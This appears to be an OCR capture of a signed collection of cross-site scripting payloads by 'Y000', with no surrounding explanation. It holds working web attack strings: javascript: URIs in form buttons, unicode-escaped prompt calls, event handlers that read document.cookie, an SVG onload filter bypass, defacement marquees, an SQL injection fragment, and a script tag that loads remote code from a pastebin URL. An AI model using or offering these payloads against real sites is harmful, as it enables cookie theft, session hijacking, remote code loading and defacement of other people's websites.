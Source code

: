 
<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_


<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>


<script type="text' or 1=1 limit 1 -- -+javascript" src="https://pastebin.com/raw/qc81pzSR"></script>

<Img src="/" =_=" title="onerror='prompt(document.cookie)'">

-1'<marquee>hacked by Y000</marquee>

<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>


<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>



"onfocus="alert('Y000')"+autofocus="

</script><!--><svg onload=[document.domain].find%26%2340;alert%26rpar;>
